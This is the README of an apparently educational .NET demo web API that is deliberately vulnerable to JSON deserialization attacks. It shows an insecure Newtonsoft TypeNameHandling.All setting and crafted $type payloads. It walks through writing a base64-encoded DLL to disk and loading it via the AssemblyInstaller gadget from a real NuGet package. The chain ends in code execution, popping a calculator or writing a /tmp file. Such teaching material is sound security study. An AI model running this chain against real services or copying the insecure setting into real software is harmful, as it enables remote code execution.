

# Json (de)serialization in dotnet - VulnJsonWebApi

Example for a **[dotnet](https://dotnet.microsoft.com/) web api** exposing **JSON deserialization vulnerabilities**.

# Motivation

**Demo** for Json deserialization vulnerability in a dotnet web api.

The main **goal** for this **demo** is for having a **hands on**, learning of basics, and understanding the **(de)serialization exploitation process** due to **insecure configurations for the (de)Serializers**.

Because of historic popularity, I've chosen to use for the demo the **Json Serializer from NewtonSoft** but this **is not so relevant**. The **important** part is **identifying and understanding** the **configuration** for the corresponding **Serializer** when **type resolution/name-handling is enabled**.


# .Net Json Deserialization Vulnerabilities and Attacks

For a detailed information on **.Net Deserializations Attacks**, please, **consider to read more** on [**Alvaro Muñoz great work on the topic**](https://speakerdeck.com/pwntester/attacking-net-serialization). Also consider visiting the [YSoSerial.Net](https://github.com/pwntester/ysoserial.net) tool.


# How to Start the web api

## Requirements

* [dotnet sdk 7](https://dotnet.microsoft.com/en-us/download)

```
dotnet --version
7.0.306

Any browser
```

## Running the web api

The vulnerable web api:


```bash
git clone https://github.com/arale61/VulnJsonWebApi.git

cd VulnJsonWebApi
cd VulnJsonWebApi

dotnet run
```

Check the port the dev web server is listening to in the output:

```bash
dotnet run
Building...
[...]
info: Microsoft.Hosting.Lifetime[14]
      Now listening on: http://localhost:5052
info: Microsoft.Hosting.Lifetime[0]
      Application started. Press Ctrl+C to shut down.
[...]
```

Browse to the **http://locahost:PORT/swagger**, in my example was http://localhost:5052/swagger but yours may vary, so check the **PORT number**:


You can try now to invoke the **GET** or **POST** requests for the **WeatherForecast resource**.


# Deserialization Attack

Having running the web api, make a **GET Request** with the **swagger form**:


Pay attention to the **result json**:

```json
{
  "$type": "VulnJsonWebApi.WeatherForecast[], VulnJsonWebApi",
  "$values": [
    {
      "$type": "VulnJsonWebApi.WeatherForecast, VulnJsonWebApi",
      "id": "bb2f68dc-b8e5-45e6-9e22-923cd924914d",
      "date": "2023-08-01",
      "temperatureC": -14,
      "temperatureF": 7,
      "summary": "Chilly",
      "rawData": null
    },
    // ...
  ]
}
```

For the **json objects** there is a **$type** property specifying type information.

In this particular case, corresponds on the **attribute** that **Newtonsoft** is using for adding the **type information** required for **deserializing back to an object**.
But other **Serializers adopt similar strategies** so just keep in mind the concept of specifying type information in the **serialized version** that later is used for **constructing a new instance** for that **type**, in the **deserialization process**.

## Identifying Serializer Settings

```c#
builder
    .Services
    .AddControllers()
    .AddNewtonsoftJson((options) =>
    {
        options.SerializerSettings.TypeNameHandling = Newtonsoft.Json.TypeNameHandling.All;
    });
```

In this particular case, **Newtonsoft Json Serializer** is using **type name handling** with the **All** setting, allowing the serializer to try to handle any requested type as far as it founds it loaded in memory. Other than **None** for this setting using **Newtonsoft** is considered **insecure** and needs to be used carefuly, probably acompanied with a **white list of allowed types**.


### Sample of **insecure configuration**:

Checking at the **Program.cs** file for the **web api** project we can see the **insecure configuration**.

This configuration is specially insecure when the **json serialized** is managed or influenced by untrusted sources, as any http client.


## Identifying a valid Placeholder

In order to **exploit the insecure configuration** we need to find the chance for the **Serializer** to try to create an **instance** of a class we can take profit of, let's call all these family of classes, **insecure classes for deserialization**.

### rawData property

Playing a bit with the swagger api you can notice that the **rawData** for a **WeatherForecast** accepts any type or even object you send to it:

Sending the following:

```json
{
    "$type": "VulnJsonWebApi.WeatherForecast, VulnJsonWebApi",
    "id": "bb2f68dc-b7e5-45e6-9e22-923cd924914d",
    "date": "2023-08-01",
    "temperatureC": -14,
    "temperatureF": 7,
    "summary": "Chilly",
    "rawData": "String type for test"
}
```

Or, these one:

```json
{
    "$type": "VulnJsonWebApi.WeatherForecast, VulnJsonWebApi",
    "id": "bb2f68dc-b7e5-45e6-9e22-923cd924915d",
    "date": "2023-08-01",
    "temperatureC": -14,
    "temperatureF": 7,
    "summary": "Chilly",
    "rawData": {
        "id": 0,
        "name": "test"
    }
}
```

All them work...


This may seem flexible or maybe is **vulnerable**.

If we try to create a child **WeatherForecast** object we see it works!:

```json
{
    "$type": "VulnJsonWebApi.WeatherForecast, VulnJsonWebApi",
    "id": "bb2f68dc-b7e5-45f6-9e24-943cd924915d",
    "date": "2023-08-01",
    "temperatureC": -14,
    "temperatureF": 7,
    "summary": "Chilly Parent",
    "rawData": {
        "$type": "VulnJsonWebApi.WeatherForecast, VulnJsonWebApi",
        "id": "bb2f68dc-b1e5-41e6-9e34-943cd924915e",
        "date": "2023-08-01",
        "temperatureC": -14,
        "temperatureF": 7,
        "summary": "Chilly Sub",
        "rawData": {
            "id": 0,
            "name": "test Sub"
        }
    }
}
```


For simplicity reasons, I defined the **rawData** property in the **WeatherForecast** class as **object**.
This will enable the **Serializer** to create any instance without dealing with **error situations**.



But keep in mind this **placeholder** or **placehoder for using an insecure class for deserialization** may not be in this form, there are **other ways of misusing the serializer to serialize an object**, for example, deserializing into an object and just after casting for a specific type, firing any exceptions, but it will already be too late, since the **payload was executed at the moment the instance was created**.


# Insecure classes for (de)serialization

Now that we can try to trick the **Serializer** to create any instance we like, is time to find **one of these insecure classes for serilization**.


## Classes with interesting pieces of code

In the **.Net Framework (not the case in dotnet or .net Core)** there were quite number of insecure classes scattered in the framework. [YSoSerial.Net](https://github.com/pwntester/ysoserial.net) generates **payloads** for lots of them, and for many different **serializers and formatters**. 

These classes are not well suited in a **insecure serialization context**.

For example, take a look at the following *class* present in the **web api**:


This class presents some **code** in the **setter** for the **Content** property. In this case, the **code** will call another function **SaveContent**. Meaning that we can potentially **use it for arbitrary remote writes**.

Despite is a very obvious way to spot the problem, there are other forms that are not that clear, for example, in C#, classes implementing *ISerializable* and marked as *[Serializable]*, need to implement a specific **constructor** and **GetObjectData method for serialization support**, check the class **OtherBadConstructs** as an example:


Even this *class* is **not used in any part of the web api code** is still in the **dll** and **accessible** by the **Serializer with the mentioned settings**.

### Create an instance of **VulnerableFileWrapper** or **OtherBadConstructs** to create a text file in a temp folder

Try to build a json payload to create a text file.


## dotnet is free of insecure classes

This is **not true**.

**Microsoft** has put lot of effort on preventing these insecure implementations and design of classes in their **domain area** and **packages**. But There are other **vendors** and all them can publish on **nuget** their **packages** and **share them to the community**.

Or any developer may introduce these problems, and without knowing it, present this vulnerable surface.

Take as an example a **nuget package I found some years ago, at early years for dotnet**, still used today significally, called [Core.System.Configuration.Install](https://www.nuget.org/packages/Core.System.Configuration.Install/).

Stats while writing this Readme:
```
Total 721.9K
Current version 447.3K
Per day average 395
```

The [Github Project Site](https://github.com/flamencist/Core.System.Configuration.Install) describes it as a dotnet Core port of the **System.Configuration.Install** of full framework .NET 4.0.

**System.Configuration.Install** was a known **insecure class for deserialization** and now is available on **dotnet** (well, it has already been available for many years).


### System.Configuration.Install.AssemblyInstaller

This class presents a gadget, a piece of code, that enables to load a random assembly into memory.


## Attacking the web api

I've installed the package **Core.System.Configuration.Install** in the **web api** project.

It's not referenced in my user code, but is referenced as a nuget dependency.

You can try to follow these steps:

Build the **AutoLoadClassLib**, sorry for the name, is just a normal class library.

```bash
cd AutoLoadClassLib
dotnet build

```

Then, create the base64 encoded version:

```bash
cat bin/Debug/net7.0/AutoLoadClassLib.dll| base64 -w0> ./dolenta.dll.b64
```

Then, use that **base64** (without newlines) to create this dll remotely, **sending a POST to WeatherForecast resource** using the **rawData** as a placeholder for creating a new **VulnerableFileWrapper** with the base64 as the content.


The **web api** should process the request as normally.

But now a dll has been been created on the specified path:


Now is time for using **System.Configuration.Install.AssemblyInstaller** to load our dll!

Create a new POST Request and this time use the **System.Configuration.Install.AssemblyInstaller** class, specifying a **Path** value that points to the newly created **dll**.

After doing this step, you could inspect the loaded dll's into the web api process and you will see that our newly created dll is loaded!

For example, in windows, you can use [ListDlls from SysInternals](https://learn.microsoft.com/en-us/sysinternals/downloads/listdlls) for checking that the dll has been loaded:

```bash
    ~/.local/opt/ListDlls/Listdlls64.exe 22000 | grep -E '(Vuln|test)'

```

Outputs:

```
    [...]
    0x0000000013820000  0x8000    c:\\programdata\\test.dll
        Verified:       Unsigned
        Publisher:      AutoLoadClassLib
        Description:    AutoLoadClassLib
        Product:        AutoLoadClassLib
        Version:        1.0.0.0
        File version:   1.0.0.0
        Create time:    Mon Aug 02 17:17:21 2060

```

Now, the web api process has loaded into memory our dll that we just copied, abusing the (de)serialization process due to an insecure configuration.


If you did all the steps correctly, now if you invoke our *class*, in my sample, **AutoLoadClassLib.Class1**, from the loaded dll, **AutoLoadClassLib**, you will trigger some **RCE**.

Use the following json to invoke the class in our dummy class library in the **rawData**:

```json
{
    "$type": "AutoLoadClassLib.Class1, AutoLoadClassLib",
    "fire":61
}
```

In windows you should see pop a **Calculator**, while in linux a new file **/tmp/arale_was_here** should be created.

This is the definition for **AutoLoadClassLib.Class1**:

```c#
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace AutoLoadClassLib
{
    public class Class1
    {
        private int fire = 0;
        public Class1()
        {
        }

        public int Fire
        {
            get { return fire; }
            set 
            { 
                fire = value;
                if(value == 61)
                {
                    if (RuntimeInformation.IsOSPlatform(OSPlatform.Linux))
                    {
                        File.WriteAllText("/tmp/arale_was_here", "arale61 was here");
                    }
                    else if (RuntimeInformation.IsOSPlatform(OSPlatform.Windows))
                    {
                        Process.Start("calc.exe");
                    }
                    else
                    {
                        throw new NotSupportedException("OS Platform not supported!");
                    }
                }
            }
        }
    }
}
```
